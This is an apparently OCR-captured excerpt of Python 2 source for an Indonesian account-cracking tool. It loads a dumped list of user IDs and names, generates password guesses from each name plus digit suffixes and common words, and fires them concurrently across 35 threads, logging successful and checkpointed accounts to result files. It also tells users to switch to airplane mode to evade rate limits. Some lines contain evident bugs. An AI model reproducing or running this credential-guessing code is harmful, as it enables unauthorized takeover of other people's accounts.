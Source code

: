         ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n[*] Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Abdullwh  Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Abdullwh  Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(free, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai%s]"%(B,H,B))
    elif ___metode___ in ['3','03']:
        print("\n%s[%s1%s]%s Gunakan Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n%s[%s*%s]%s Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Abdullwh  Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Abdullwh  Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd